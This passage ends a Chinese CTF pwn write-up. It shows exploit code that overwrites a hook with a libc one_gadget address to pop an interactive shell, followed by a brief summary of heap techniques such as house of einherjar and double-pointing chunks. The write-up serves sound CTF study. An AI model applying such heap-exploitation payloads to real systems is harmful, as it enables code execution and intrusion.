 ```
#x = input("debug")
new(0x60) #idx.5
#x = input("debug")
new(0x60) #idx.7
#x = input("debug")
onegadget_addr = libc_base + 0x4526a
payload_hj2onegadget = 'A'*3 + p64(0) + p64(0) + p64(onegadget_addr)
edit(7,len(payload_hj2onegadget),payload_hj2onegadget)

#fire
new(0x100)
r.interactive()
```



## 七、心得总结

这道pwn最大的收获在于了解了堆漏洞泄露内存的两大主要思路：

### 1、chunk extern

堆扩张攻击，如常用的house of einherjar攻击

### 2、chunk double pointing

想办法让两个用户指针索引同一个堆块
